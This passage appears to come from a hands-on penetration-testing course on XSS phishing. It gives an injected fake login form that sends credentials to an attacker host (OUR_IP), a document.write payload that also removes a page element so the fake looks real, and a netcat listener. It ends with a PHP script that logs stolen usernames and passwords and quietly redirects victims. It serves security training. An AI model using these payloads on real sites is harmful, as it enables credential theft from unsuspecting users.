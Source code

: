 ```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

## Cleaning Up
Now we should remove any element that reference the previous page in order to make it look legit as the real login page.
To find the id of the HTML element we want to remove, we can open the Page Inspector Picker by clicking [CTRL+SHIFT+C] and then clicking on the element we need.

```js
document.getElementById('urlform').remove();
```

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
document.getElementById('urlform').remove();
```

If there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload.

```
...PAYLOAD... <!-- 
```

## Credential Stealing
So, let us start a simple netcat server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```bash
$ sudo nc -lvnp 80
```

However, as we are only listening with a netcat listener, it will not handle the HTTP request correctly, and the victim would get an Unable to connect error, which may raise some suspicions. So, we can use a basic PHP script that logs the credentials from the HTTP request and then returns the victim to the original page without any injections. In this case, the victim may think that they successfully logged in and will use the Image Viewer as intended.


The following PHP script should do what we need, and we will write it to a file on our VM that we'll call index.php and place it in /tmp/tmpserver/
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
